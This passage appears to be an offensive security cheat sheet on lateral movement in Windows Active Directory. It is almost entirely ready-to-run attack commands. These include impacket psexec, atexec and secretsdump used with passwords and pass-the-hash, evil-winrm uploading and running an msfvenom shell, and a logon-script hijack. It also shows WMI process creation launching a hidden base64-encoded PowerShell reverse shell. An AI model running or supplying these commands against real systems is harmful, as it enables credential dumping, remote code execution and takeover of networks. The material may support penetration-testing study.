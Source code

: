 ```bash
# Replace <User.Name>, $ip, <file> with actual values                          
Set-DomainObject -Identity 'User.Name' -Set @{"scriptpath"="\\$ip\share\<file>.bat"} -Credential $cred -Verbose            
```

#### Executing Remote Commands

```bash
# With a ticket
impacket-atexec -k admin02.corp.com "powershell -enc <command>"
# With password
impacket-psexec "web02/administrator:<password>@web02.corp.com" -c <path to binary>
# Get a shell with ntlm hash
impacket-psexec 'web02/administrator'@10.10.10.15 -hashes ':5bcoe56i4645ho43h2ei534rsat' # maybe take quotes off of domain/user
# Dump secrets from kali machine
impacket-secretsdump svcorp/pete@10.10.10.15 -hashes ':5bcoe56i4645ho43h2ei534rsat'
# Using evil win-rm with hash
evil-winrm -i 10.10.10.15 -u pete -H 5bcoe56i4645ho43h2ei534rsat
upload msfvenom_shell.exe # For a better shell
C:\Windows\Tools\msfvenom_shell.exe # Execute executable

# PsExec64.exe, make sure this file is transferred
PS C:\Tools\SysinternalsSuite> ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```

#### WMI and WinRM for Remote Commands and Shells

WMI is great for creating processes on a remote windows machine using either a password or hash. The authentication must be part of the Local Administrators. It uses port 135 for remote procedure calls.

```bash
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```
